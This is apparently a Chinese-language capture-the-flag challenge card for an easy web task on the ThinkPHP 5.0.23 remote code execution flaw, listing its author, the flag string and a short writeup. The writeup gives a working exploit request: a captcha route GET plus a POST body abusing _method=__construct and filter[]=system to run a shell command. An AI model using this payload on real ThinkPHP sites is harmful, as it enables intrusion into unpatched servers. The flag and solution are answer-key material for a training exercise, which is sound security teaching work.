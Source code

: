 - **题目名称：**thinkphp
- **题目类型：** WEB
- **题目难度：**容易 
- **出题人：**ABU
- **考点：**

1. thinkphp 5.0.23 rce

- **描述：**php最常见的框架，不会有人不知道吧

- **flag：**flag{ewyg_wyuf_ushg_dgds_dgfs!}

- **Writeup：** 

  payload如下

  ```php
  get:/public/index.php?s=captcha 
  post:_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=cat /FL4G
  ```

  

